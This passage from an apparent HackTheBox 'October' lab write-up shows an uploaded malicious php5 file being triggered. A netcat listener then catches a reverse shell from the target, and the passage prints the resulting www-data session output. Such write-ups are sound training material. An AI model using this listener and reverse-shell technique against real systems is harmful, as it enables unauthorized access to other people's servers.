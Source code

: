 ![upload_php5_file](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/October/upload_php5_file.png?raw=true)

Let’s start a netcat listener and execute the malicious file by clicking on the public url.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/October]
└─# nc -nlvp 1234              
listening on [any] 1234 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.16] 58788
Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686 athlon i686 GNU/Linux
 07:47:04 up 19 min,  0 users,  load average: 10.09, 9.58, 6.19
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
